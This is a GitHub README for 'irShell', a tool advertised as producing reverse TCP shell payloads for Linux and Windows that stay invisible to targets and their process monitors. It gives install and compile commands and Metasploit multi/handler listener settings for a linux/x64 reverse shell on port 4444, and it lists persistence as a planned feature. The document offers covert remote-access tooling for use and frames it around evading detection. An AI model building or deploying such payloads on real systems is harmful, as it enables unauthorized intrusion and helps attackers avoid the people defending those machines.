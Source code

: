 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.


## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in dependency installation 
